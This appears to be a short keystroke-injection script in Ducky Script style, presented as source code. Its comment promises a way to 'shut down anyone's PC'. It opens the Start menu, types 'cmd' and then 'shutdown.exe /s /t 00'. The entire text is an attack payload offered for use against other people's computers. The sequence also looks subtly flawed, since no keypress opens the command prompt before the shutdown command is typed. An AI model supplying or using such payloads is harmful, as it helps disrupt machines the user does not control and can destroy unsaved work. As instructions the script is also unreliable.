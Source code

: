 `REM: This is just a simple script that will allow you to quicky shut down anyone's PC with just a few lines of code.`
`CONTROL ESCAPE`
`DELAY 400`
`STRING cmd`
`DELAY 200`
`STRING shutdown.exe /s /t 00`
`ENTER`
